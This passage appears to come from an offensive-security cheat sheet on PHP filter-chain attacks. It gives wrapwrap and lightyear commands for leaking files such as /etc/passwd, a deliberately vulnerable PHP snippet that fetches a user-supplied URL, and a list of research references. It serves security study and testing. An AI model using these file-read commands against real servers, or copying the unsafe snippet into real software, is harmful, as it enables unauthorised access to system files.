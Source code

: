 To obtain the contents of some file, we would like to have: `{"message":"<file contents>"}`.

```ps1
./wrapwrap.py /etc/passwd 'PREFIX' 'SUFFIX' 1000
./wrapwrap.py /etc/passwd '{"message":"' '"}' 1000
./wrapwrap.py /etc/passwd '<root><name>' '</name></root>' 1000
```

This can be used against vulnerable code like the following.

```php
<?php
  $data = file_get_contents($_POST['url']);
  $data = json_decode($data);
  echo $data->message;
?>
```

### Leak file content using blind file read primitive

* [ambionics/lightyear](https://github.com/ambionics/lightyear)

```ps1
code remote.py # edit Remote.oracle
./lightyear.py test # test that your implementation works
./lightyear.py /etc/passwd # dump a file!
```


## References

* [Baby^H Master PHP 2017 - Orange Tsai (@orangetw) - Dec 5, 2021](https://github.com/orangetw/My-CTF-Web-Challenges#babyh-master-php-2017)
* [Iconv, set the charset to RCE: exploiting the libc to hack the php engine (part 1) - Charles Fol - May 27, 2024](https://www.ambionics.io/blog/iconv-cve-2024-2961-p1)
* [Introducing lightyear: a new way to dump PHP files - Charles Fol - November 4, 2024](https://www.ambionics.io/blog/lightyear-file-dump)
* [Introducing wrapwrap: using PHP filters to wrap a file with a prefix and suffix - Charles Fol - December 11, 2023](https://www.ambionics.io/blog/wrapwrap-php-filters-suffix)
* [It's A PHP Unserialization Vulnerability Jim But Not As We Know It - Sam Thomas - August 10, 2018](https://github.com/s-n-t/presentations/blob/master/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf)
* [New PHP Exploitation Technique - Dr. Johannes Dahse - August 14, 2018](https://web.archive.org/web/20180817103621/https://blog.ripstech.com/2018/new-php-exploitation-technique/)
* [OffensiveCon24 - Charles Fol- Iconv, Set the Charset to RCE - June 14, 2024](https://youtu.be/dqKFHjcK9hM)
* [PHP FILTER CHAINS: FILE READ FROM ERROR-BASED ORACLE - Rémi Matasse - March 21, 2023](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle.html)
* [PHP FILTERS CHAIN: WHAT IS IT AND HOW TO USE IT - Rémi Matasse - October 18, 2022](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)
* [Solving "includer's revenge" from hxp ctf 2021 without controlling any files - @loknop - December 30, 2021](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d)
